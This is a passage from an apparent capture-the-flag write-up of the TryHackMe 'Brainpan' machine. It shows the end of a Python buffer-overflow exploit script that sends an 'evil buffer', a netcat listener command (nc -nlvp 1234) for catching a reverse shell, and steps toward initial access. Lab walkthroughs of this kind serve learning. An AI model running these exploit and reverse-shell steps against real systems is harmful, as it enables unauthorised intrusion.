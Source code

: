 ```
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

If you are sure that everything is right you can now start a nc listener on your kali to get the connection

```
nc -nlvp 1234
```

reopen the application and click the red icon again to run it and then run the exploit script and wait for the connection
and you will find that we have recieved back a connection and now we are in the system.

### Initial Access

Now we know everything works perfectly let's now connect to the machine just change the ip in the script to connect to the thm machine instead of your local machine 

![img-description](/assets/img/Brainpan/Brainban_Access.png)
_User access_

after running the script you will find that you have now access to the server

after some exploring i think we got the wrong shell because there is clearly a linux file system in here and also there is a shell script in the dir we are in

